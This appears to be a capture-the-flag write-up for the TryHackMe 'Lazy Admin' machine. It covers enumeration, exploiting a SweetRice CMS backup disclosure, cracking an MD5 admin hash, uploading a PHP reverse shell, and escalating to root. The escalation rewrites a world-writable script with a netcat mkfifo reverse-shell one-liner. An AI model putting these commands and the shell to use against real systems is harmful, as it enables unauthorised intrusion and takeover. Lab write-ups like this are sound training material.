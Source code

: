 ```yaml
---
title: Lazy Admin
date: 2022-05-27 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```



### What is the user flag?

Let's run a quick Nmap scan
```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.74.238
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

going to the page is the default Apache webpage, nothing much to see, so let's run a gobuster scan to see if we find any hidden directory.

Im going to use the '-x' flag which adds the extension to the words in the wordlist, but doesn't replace the original words without the extension, so naturally it makes the scan slower since it got more words to try, I usually get lucky with only php but if not, you can try with .txt, .pdf, etc. or even .html .htm since some wordlists don't have these extensions by default.

```terminal
gobuster dir -u http://10.10.74.238/ -w /usr/share/dirb/wordlists/common.txt -x .php
```

```
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.74.238/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

we found a directory '/content', heading over the page we see that is a page after the installation of SweetRice which looks like a CMS like WordPress.

I'll do another gobuster scan in the background while I search for exploits for this software.

with searchsploit we can search exploits from the terminal, exploits that we have on our computer.
```terminal
searchsploit sweetrice
```

and there are a few
```
SweetRice 0.5.3 - Remote File Inclusion                         | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities                      | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download                       | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                         | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                             | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                    | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Executi | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload           | php/webapps/14184.txt
```

but we don't know what version is it, so we'd be just trying and see if we're lucky. Im going to try enum the webpage if I found something.

going through the source code, it looks like I found a version, in /content/js/SweetRice.js there is this comment at the start of the code:
```
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
<!--
```

if I'm not mistaken and that's the version, it's a pretty old one.
the gobuster scan also finished

```
/as                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.74.238/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.74.238/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.74.238/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.74.238/content/js/]
```

*as is a login page

we have the folder attachment that may be the folder where files are uploaded, and we have the "SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload " exploit so I think that's our chance.

after taking a more close look, this doesn't work for us because it uses a plugin 'FCKeditor' which it's not installed here, we can check it by going to 'http://10.10.74.238/content/_plugin/'.

then I tried the two exploits above, which didn't work for me also, then I tried the 'Backup Disclosure' which says that there is a directory with a MySQL backup, I downloaded looking for credentials or something, and I think I found a user and a password:

'''
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
'''

looks like manager is the admin and his password is that hash, so I use hash-identifier to see what kind of hash is, it looks like is MD5, now with this let's use hashcat to crack it up.

with the normal mode, it did not cracked it, so I'll use the rockyou wordlists.

* -m 0 is the mode for MD5 raw
* -a 0 is to use a wordlist

```terminal
hashcat -m 0 -a 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

and it does crack it to 'Password123', now with these credentials we can access the login page under /content/as. 

my initial thought in the admin panel was to upload a revershell, to somewhere or execute it somehow. I first started creating a post and putting the raw code from a php reverse shell and then executing it, but it didn't work (also you have to mark the website status as running to see the posts you create), then I tried to upload the shell to the section that said upload files a bit skeptical because I thought of this only going to display the file to download it, but it actually runs it when you click it, so I got a shell!

the PHP shell: https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php
(change the IP to yours and the port you'd like)
(remember to have a listener with the reverse shell file port when executing the shell)

under the itguy's home directory is our first flag

> 

### What is the root flag?

Let's do some enumeration on the machine, we have mysql_login.txt with some credentials

```
rice:randompass
```

we have permission to execute a file in itguy's home directory

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

backup.pl
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

let's see what's copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f
```

it's a bash reverse shell, let's check if we have permission to write on it

```terminal
ls -la /etc/copy.sh
```

and we have '-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh'
in the third group of permissions 'rwx' all other users can write on it.

so let's change the IP for ours, but nano isn't working, so i'll do it with echo

```terminal
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.26.231 5554 >/tmp/f" > /etc/copy.sh
```

and now we execute it with sudo, so we'll have a root shell (remember to have the listener ready with the correct port, this case 5554)

in your local machine:
```terminal
nc -lvnp 5554
```

in the victim's machine:
```terminal
sudo /usr/bin/perl /home/itguy/backup.pl
```

And we got ourselves a root shell! now just go and cat the flag under /root

> 
